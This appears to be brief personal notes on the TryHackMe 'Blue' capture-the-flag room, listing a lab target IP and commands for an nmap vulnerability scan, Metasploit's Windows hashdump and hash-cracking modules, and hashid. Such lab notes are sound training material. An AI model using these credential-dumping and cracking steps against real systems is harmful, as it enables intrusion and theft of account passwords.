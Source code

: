 # Blue Room on TryHackMe

IP: `10.10.120.200`

Went through several IPs

`use post/windows/gather/hashdump`
`use auxiliary/analyze/crack_windows`

`nmap -sS --script vuln $IP`

`hashid -m < hashes.txt`
